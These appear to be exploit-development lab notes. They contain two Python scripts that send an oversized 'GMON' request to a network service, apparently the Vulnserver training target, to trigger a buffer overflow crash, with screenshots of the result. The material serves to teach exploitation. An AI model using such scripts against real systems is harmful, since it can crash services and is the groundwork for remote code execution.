 ## Initial payload

- Code

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack


host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "
buffer += b"./"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

- Screenshot

![4b749a6b29b95f05cfd940b537976ac8.png](../_resources/4b749a6b29b95f05cfd940b537976ac8-1.png)

## Update Payload 00

- Code

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack

host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "
buffer += b"./"+b"A"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

- Screenshot

![221111.00.png](../_resources/221111.00.png)

